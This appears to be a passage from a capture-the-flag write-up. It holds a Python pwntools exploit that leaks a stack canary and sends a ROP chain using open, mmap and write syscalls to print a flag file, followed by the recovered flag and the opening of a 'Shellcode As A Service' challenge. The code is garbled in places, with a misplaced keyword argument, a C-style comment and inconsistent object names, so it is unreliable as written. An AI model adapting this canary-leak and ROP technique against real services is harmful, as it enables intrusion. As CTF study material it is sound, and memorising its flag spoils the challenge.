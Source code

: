 ```python=

def write_note(idx, size=0x1000):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'idx = ', str(idx).encode())
    io.sendlineafter(b'size to write = ', f"{size}".encode())

def read_note(idx):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'idx = ', str(idx).encode())


for i in range(30):
    create_note()
    if i ==0:
        p.recvuntil(b"Addr of note 0 is 0x")
        addr_0=int(p.recvuntil(b"\n").rstrip().decode(),16)
    sleep(0.1)

write_note(0, size=100, b'flag\0')
write_note(3, size=0x1740+0x100) 
read_note(3)

for i in range(0x10):
	io.recv(0x100)
	log.info("")
	sleep(0.5)

sleep(1)
io.recv(0x760+9-1)
sleep(1)
canary = u64(io.recv(8))
log.info(f"canary = {hex(canary)}")

payload = b'A'*24 // fill buff and saved_rbp
payload += flat(pop_rax, 2, pop_rdi, base+0xf00, pop_rsi, 0, pop_rdx, 0,\
                syscall_ret, pop_rax, 9, pop_rdi, 0x13370000, pop_rsi, 0x1000,\ # open
                pop_rdx, 7, pop_r10, 2, pop_r8, 3, pop_r9, 0, syscall_ret,\  # mmap
                pop_rax, 1, pop_rdi, 1, pop_rsi, 0x13370000, pop_rdx, 0x40, syscall_ret) # write

io.sendline(payload)
io.sendline(b'4')
io.interactive()

```

**$ flag:** SEE{m4st3r_0f_mm4p_5ee2a719bc6a8209e7295d4095ff5181}

# Shellcode As A Service

`Description: Hey, welcome to my new SaaS platform! As part of our early access program, we are offering the service for FREE. Our generous free tier gives you a whole SIX BYTES of shellcode to run on our server. What are you waiting for? Sign up now!`
